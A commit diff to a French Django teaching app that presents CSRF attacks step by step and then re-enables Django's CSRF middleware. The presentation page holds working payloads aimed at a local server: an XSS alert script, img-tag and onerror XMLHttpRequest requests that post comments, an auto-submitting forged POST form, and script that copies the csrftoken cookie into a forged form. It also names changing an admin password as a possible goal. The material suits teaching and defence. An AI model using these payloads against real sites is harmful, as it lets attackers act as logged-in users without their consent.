

Before and after one commit to c-bertal/csrf, a Django app: page /csrf/presentation in a window 1280 px wide. Shown: the top 662 px of the page. Run offline with Django 3.2, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
des trucs

```diff
--- a/core/templates/core/index.html
+++ b/core/templates/core/index.html
@@ -7,7 +7,7 @@
         {% for message in all_messages %}
             <li class="list-group-item">
                 <a href="/csrf/{{ message.id }}">
-                    {{ message.id }} - {{ message.user }} - {{ message.body |slice:":100"}}
+                    {{ message.id }} - {{ message.user }} - {{ message.body }}
                 </a>
             </li>
         {% endfor %}
--- a/core/templates/core/presentation.html
+++ b/core/templates/core/presentation.html
@@ -4,26 +4,62 @@
 
 
     <div class="container">
+        <br>
+        <h1>Cross Site Request Forgery</h1>
+        <br>
         <div id="accordion">
             <div class="card">
                 <div class="card-header" id="headingOne">
                     <h5 class="mb-0">
-                    <button class="btn btn-link" data-toggle="collapse" data-target="#collapseOne" aria-expanded="true"
+                        <button class="btn btn-link" data-toggle="collapse" data-target="#collapseOne"
+                                aria-expanded="true"
                                 aria-controls="collapseOne">
-                        Collapsible Group Item #1
+                            <b>1. Présentation</b>
                         </button>
                     </h5>
                 </div>
 
                 <div id="collapseOne" class="collapse show" aria-labelledby="headingOne" data-parent="#accordion">
                     <div class="card-body">
-                    Anim pariatur cliche reprehenderit, enim eiusmod high life accusamus terry richardson ad squid. 3
-                    wolf moon officia aute, non cupidatat skateboard dolor brunch. Food truck quinoa nesciunt laborum
-                    eiusmod. Brunch 3 wolf moon tempor, sunt aliqua put a bird on it squid single-origin coffee nulla
-                    assumenda shoreditch et. Nihil anim keffiyeh helvetica, craft beer labore wes anderson cred nesciunt
-                    sapiente ea proident. Ad vegan excepteur butcher vice lomo. Leggings occaecat craft beer
-                    farm-to-table, raw denim aesthetic synth nesciunt you probably haven't heard of them accusamus
-                    labore sustainable VHS.
+                        Présentation rapide du site web
+                    </div>
+                </div>
+            </div>
+            <div class="card">
+                <div class="card-header" id="headingBdi">
+                    <h5 class="mb-0">
+                        <button class="btn btn-link" data-toggle="collapse" data-target="#collapseBdi"
+                                aria-expanded="false"
+                                aria-controls="collapseBdi">
+                            <b>2. Le problème</b>
+                        </button>
+                    </h5>
+                </div>
+
+                <div id="collapseBdi" class="collapse" aria-labelledby="headingBdi" data-parent="#accordion">
+                    <div class="card-body">
+                        Le principe d'une attaque CSRF
+                    </div>
+                </div>
+            </div>
+            <div class="card">
+                <div class="card-header" id="headingAsd">
+                    <h5 class="mb-0">
+                        <button class="btn btn-link collapsed" data-toggle="collapse" data-target="#collapseAsd"
+                                aria-expanded="false" aria-controls="collapseAsd">
+                            <b>3. Interprétation de balises dans les messages</b>
+                        </button>
+                    </h5>
+                </div>
+                <div id="collapseAsd" class="collapse" aria-labelledby="headingAsd" data-parent="#accordion">
+                    <div class="card-body">
+                        Démonstration de l'appel avec une balise &lt;script&gt;
+                        <br>
+                        Uniquement afin de faciliter les tests :
+                        <br>
+                        <pre>
+                            &lt;script&gt;alert('ALED')&lt;/script&gt;
+                        </pre>
                     </div>
                 </div>
             </div>
@@ -32,19 +68,51 @@
                     <h5 class="mb-0">
                         <button class="btn btn-link collapsed" data-toggle="collapse" data-target="#collapseTwo"
                                 aria-expanded="false" aria-controls="collapseTwo">
-                        Collapsible Group Item #2
+                            <b>4. Attaque via une balise img</b>
                         </button>
                     </h5>
                 </div>
                 <div id="collapseTwo" class="collapse" aria-labelledby="headingTwo" data-parent="#accordion">
                     <div class="card-body">
-                    Anim pariatur cliche reprehenderit, enim eiusmod high life accusamus terry richardson ad squid. 3
-                    wolf moon officia aute, non cupidatat skateboard dolor brunch. Food truck quinoa nesciunt laborum
-                    eiusmod. Brunch 3 wolf moon tempor, sunt aliqua put a bird on it squid single-origin coffee nulla
-                    assumenda shoreditch et. Nihil anim keffiyeh helvetica, craft beer labore wes anderson cred nesciunt
-                    sapiente ea proident. Ad vegan excepteur butcher vice lomo. Leggings occaecat craft beer
-                    farm-to-table, raw denim aesthetic synth nesciunt you probably haven't heard of them accusamus
-                    labore sustainable VHS.
+                        Démonstration de l'appel avec une balise &lt;img&gt;
+                        <br>
+                        <pre>
+                            &lt;img src="http://127.0.0.1:8000/csrf/save_comment?body=HACKED"&gt;
+                        </pre>
+                        <br>
+                        Variante, sans src:
+                        <br>
+                        <pre>
+                            &lt;img src="" onerror="a = new XMLHttpRequest(); a.open('GET', 'http://127.0.0.1:8000/csrf/save_comment?body=NOSRCHACKED'); a.send();"&gt;
+                        </pre>
+                        <br>
+                        Limitation de cet appel : GET
+                    </div>
+                </div>
+            </div>
+            <div class="card">
+                <div class="card-header" id="headingLdj">
+                    <h5 class="mb-0">
+                        <button class="btn btn-link collapsed" data-toggle="collapse" data-target="#collapseLdj"
+                                aria-expanded="false" aria-controls="collapseLdj">
+                            <b>5. Attaque via POST</b>
+                        </button>
+                    </h5>
+                </div>
+                <div id="collapseLdj" class="collapse" aria-labelledby="headingLdj" data-parent="#accordion">
+                    <div class="card-body">
+                        Démonstration de l'appel avec une balise &lt;form&gt;
+                        <br>
+                        Permet de gérer simplement un POST
+                        <br>
+                        <br>
+                        <pre>
+                            &lt;form method='POST' action='http://127.0.0.1:8000/csrf/save_comment_post' id="csrf-form"&gt;
+                              &lt;input type='hidden' name='body' value='HACKED FROM FORM'&gt;
+                              &lt;input type='submit' value='submit'&gt;
+                            &lt;/form&gt;
+                            &lt;script&gt;document.getElementById("csrf-form").submit()&lt;/script&gt;
+                        </pre>
                     </div>
                 </div>
             </div>
@@ -53,19 +121,67 @@
                     <h5 class="mb-0">
                         <button class="btn btn-link collapsed" data-toggle="collapse" data-target="#collapseThree"
                                 aria-expanded="false" aria-controls="collapseThree">
-                        Collapsible Group Item #3
+                            <b>6. Un exemple de finalité</b>
                         </button>
                     </h5>
                 </div>
                 <div id="collapseThree" class="collapse" aria-labelledby="headingThree" data-parent="#accordion">
                     <div class="card-body">
-                    Anim pariatur cliche reprehenderit, enim eiusmod high life accusamus terry richardson ad squid. 3
-                    wolf moon officia aute, non cupidatat skateboard dolor brunch. Food truck quinoa nesciunt laborum
-                    eiusmod. Brunch 3 wolf moon tempor, sunt aliqua put a bird on it squid single-origin coffee nulla
-                    assumenda shoreditch et. Nihil anim keffiyeh helvetica, craft beer labore wes anderson cred nesciunt
-                    sapiente ea proident. Ad vegan excepteur butcher vice lomo. Leggings occaecat craft beer
-                    farm-to-table, raw denim aesthetic synth nesciunt you probably haven't heard of them accusamus
-                    labore sustainable VHS.
+                        Changer le mot de passe de l'admin au lieu de poster des messages
+                    </div>
+                </div>
+            </div>
+            <div class="card">
+                <div class="card-header" id="headingBku">
+                    <h5 class="mb-0">
+                        <button class="btn btn-link collapsed" data-toggle="collapse" data-target="#collapseBku"
+                                aria-expanded="false" aria-controls="collapseBku">
+                            <b>7. Contrer ce CSRF</b>
+                        </button>
+                    </h5>
+                </div>
+                <div id="collapseBku" class="collapse" aria-labelledby="headingBku" data-parent="#accordion">
+                    <div class="card-body">
+                        Possibilité de contrer le CSRF tel que montré
+                        <br>
+                        Exemple:
+                        <br>
+                        <pre>
+                            &lt;form method='POST' action='http://127.0.0.1:8000/csrf/save_comment_post' id="csrf-form"&gt;
+                              &lt;input type='hidden' name='body' value='HACKED FROM FORM'&gt;
+                              &lt;input type='submit' value='submit'&gt;
+                            &lt;/form&gt;
+                            &lt;script&gt;
+                            function getCookie(cname) {
+                              var name = cname + "=";
+                              var decodedCookie = decodeURIComponent(document.cookie);
+                              var ca = decodedCookie.split(';');
+                              for(var i = 0; i &lt;ca.length; i++) {
+                                var c = ca[i];
+                                while (c.charAt(0) == ' ') {
+                                  c = c.substring(1);
+                                }
+                                if (c.indexOf(name) == 0) {
+                                  return c.substring(name.length, c.length);
+                                }
+                              }
+                              return "";
+                            }
+                            var csrftoken = getCookie('csrftoken');
+
+                            var newcsrf = document.createElement("input");
+                            newcsrf.type = "text";
+                            newcsrf.name = "csrfmiddlewaretoken";
+                            newcsrf.value = csrftoken;
+
+                            document.getElementById("csrf-form").appendChild(newcsrf);
+                            document.getElementById("csrf-form").submit();
+                            &lt;/script&gt;
+
+                        </pre>
+
+                        <br>
+                        Limitations de cette attaque
                     </div>
                 </div>
             </div>
--- a/core/urls.py
+++ b/core/urls.py
@@ -3,8 +3,8 @@ from core.views import *
 
 
 urlpatterns = [
+    path('', index, name='index'),
     path('presentation', presentation, name='presentation'),
-    path('', index, name='index'),
     path('<int:pk>', view_comment, name='view_comment'),
     path('post_comment', post_comment, name='post_comment'),
     path('save_comment', save_comment, name='save_comment'),
--- a/core/views.py
+++ b/core/views.py
@@ -2,7 +2,7 @@ from django.contrib.auth.decorators import login_required
 from django.contrib.auth.mixins import LoginRequiredMixin
 from django.http import HttpResponse
 from django.shortcuts import render, redirect
-from pip._internal import req
+from django.views.decorators.csrf import csrf_protect, csrf_exempt
 
 from .models import Message
 
@@ -43,6 +43,7 @@ def save_comment(request):
     return redirect('/csrf')
 
 
+@csrf_protect
 @login_required
 def save_comment_post(request):
     # on récupere les champs
--- a/csrf/settings.py
+++ b/csrf/settings.py
@@ -44,7 +44,7 @@ MIDDLEWARE = [
     # 'django.middleware.security.SecurityMiddleware',
     'django.contrib.sessions.middleware.SessionMiddleware',
     'django.middleware.common.CommonMiddleware',
-    # 'django.middleware.csrf.CsrfViewMiddleware',
+    'django.middleware.csrf.CsrfViewMiddleware',
     'django.contrib.auth.middleware.AuthenticationMiddleware',
     'django.contrib.messages.middleware.MessageMiddleware',
     'django.middleware.clickjacking.XFrameOptionsMiddleware',
--- a/csrf/urls.py
+++ b/csrf/urls.py
@@ -18,6 +18,7 @@ from django.urls import path, include
 
 urlpatterns = [
     path('admin/', admin.site.urls),
+    path('', include('core.urls')),
     path('csrf/', include('core.urls')),
     path('accounts/', include('django.contrib.auth.urls'))
 ]
```
Also changed, not shown: core/templates/core/post_comment.html (+13 -0 lines), db.sqlite3. Lines whose indentation alone changed are shown as unchanged.
